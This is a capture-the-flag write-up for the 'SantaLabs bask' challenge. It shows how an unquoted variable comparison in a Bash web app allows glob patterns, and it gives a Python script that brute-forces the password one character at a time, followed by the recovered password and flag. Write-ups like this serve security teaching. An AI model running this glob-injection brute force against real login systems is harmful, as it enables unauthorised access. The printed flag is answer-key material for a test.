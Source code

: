 # 08 - SantaLabs bask

## Description

Level: Medium<br/>
Author: coderion

Ditch flask and complicated python. With SantaLabs bask, you can write interactive websites using good, old bash and
even template your files by using dynamic scripting!

Please note that the snowflake animation upon visiting the website may not show on certain browsers and systems. In case
this occurs, try another browser.

## Solution

We are given a remote website as well as its source code (written in Bash! 🤯). We are asked to enter a password on the
website, entering the correct password would show us the flag.

![login page of bask](img.png)

After some digging through the source code, I came across this odd comparison:

```shell
if [[ $ADMIN_PASSWORD == $POST_PASSWORD ]]; then
```

It didn't use double quotes around the variables which means that glob patterns are evaluated before performing the
equality check. With the right glob pattern, we can bruteforce the password character by character:

```python
import string

import requests

url = "https://<instance>.idocker.vuln.land/login"

prefix = ""
i = 0

while True:
    current = string.printable[i]
    password = f"{prefix}{current}*"

    response = requests.post(url, data=f'password={password}')
    print(password)

    if "admin_token" in response.text:
        prefix += current
        print(prefix)
        i = 0

    if 'Invalid username or password' in response.text:
        i = i + 1
```

This script simply tries all patterns of the form `X*` until it finds the right character `X` which is then kept as a
known prefix. Sometimes, requests had to be retried due to bad gateway errors. After a minute, the script shows the
password `salami`. Entering it on the website, leads us to the flag `HV23{gl0bb1ng_1n_b45h_1s_fun}`.
